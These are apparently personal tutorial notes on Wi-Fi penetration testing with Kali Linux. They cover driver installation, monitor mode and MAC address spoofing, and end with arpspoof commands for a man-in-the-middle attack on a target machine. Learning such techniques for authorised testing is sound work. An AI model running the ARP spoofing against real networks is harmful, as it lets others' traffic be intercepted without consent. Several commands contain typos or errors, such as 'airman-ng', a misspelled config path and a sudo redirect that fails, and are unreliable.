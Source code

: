 # Network Hacking

We use Kali Linux for penetration tests. It is also possible to use Ubuntu or other Linux distributions but we need to manually install many tools.

## 1. Install the driver for wireless network card

The RTL8812AU chipset requires a specific driver, and check if the driver is installed using the following command.

```bash
lsmod | grep 8812au
```

If the driver is not installed, install it with a simple `apt install realtek-rtl88xxau-dkms`.

```bash
sudo apt update
sudo apt install dkms build-essential linux-headers-$(uname -r) git

# Install the driver with this command. I almost spent 4 hours to find this line of command to make it work.
sudo apt install realtek-rtl88xxau-dkms

# The method below is recommended by many people but it does not work for the current version. The driver will make the wireless adaptor not able to show available networks.
git clone https://github.com/aircrack-ng/rtl8812au.git
cd rtl8812au
sudo make dkms_install
```

### Linux Header and system problems

The above command may fail due to linux-header problems for a newly installed kali linux.

```bash
apt search linux-header
# The version can be a problem, install the one that can be found.
sudo apt install linux-header-6.11.2
```

## 2. Connect to a wireless network normally

```bash
sudo iw dev wlan0 scan | grep SSID
sudo wpa_passphrase "Your_SSID" "Your_PASSWORD" > /etc/wpa_supplicant.conf
sudo wpa_supplicant -B -i wlan0 -c /etc/wpa_supplicant.conf
sudo dhclient wlan0
```

## 3. Normal Mode vs Monitor Mode

Monitor mode allows your interface to get packets that are not meant to be sent to you in the network.

```bash
# Kill the network
airman-ng check kill

# Set the interface to monitor mode
sudo iw dev wlan0 set type monitor

# old way
# sudo iwconfig wlan0 mode monitor
```

## 4. Manually Set Mac Address & Mac Address Reset Error

Use the following commands to manually set the Mac Address for the wireless interface.

```bash
ip link show # check the wireless interface

sudo systemctl stop NetworkManager
sudo systemctl stop wpa_supplicant

sudo ip link set wlan0 down

# change the mode to monitor
sudo iw dev wlan0 set type monitor
# change the mac address: (1) has to be monitor mode; (2) other management program needs to be killed --- NetworkManager, wpa_supplicant
sudo ip link set dev wlan0 address 00:11:22:33:44:55
sudo ip link set wlan0 up

# check if the mode and MAC address is correct
sudo iw dev wlan0 info
```

The old way is to use `ifconfig`, no longer recommended.

> The recommended way is `ip` and `iw` command.

```bash
sudo ifconfig wlan0 down

sudo ifconfig wlan0 hw ether 00:11:22:33:44:55

sudo ifconfig wlan0 up
```

## Prevent MAC address from being reset

Add the following two lines at the end of `/etc/NetowrkManager/NetworkManager.conf` file to prevent the Network Manager from resetting MAC address.

```bash
[device]
wifi.scan-rand-mac-address=no

[connection]
wifi.cloned-mac-address=preserve
```

## Arp Spoofing

After gaining access to the network, we can target a machine and do ARP spoofing.

```bash
# enable port forwarding to make the target machine not sensible of us as a middle man.
sudo echo 1 > /proc/sys/net/ipv4/ip_forward
```

```bash
# run the following two commands at the same time to become a middleman.
sudo arpspoof -i eth0 -t 192.168.211.130 192.168.211.1
sudo arpspoof -i eth0 -t 192.168.211.1 192.168.211.130
```

In this way, all the traffic from the target machine will go through us.
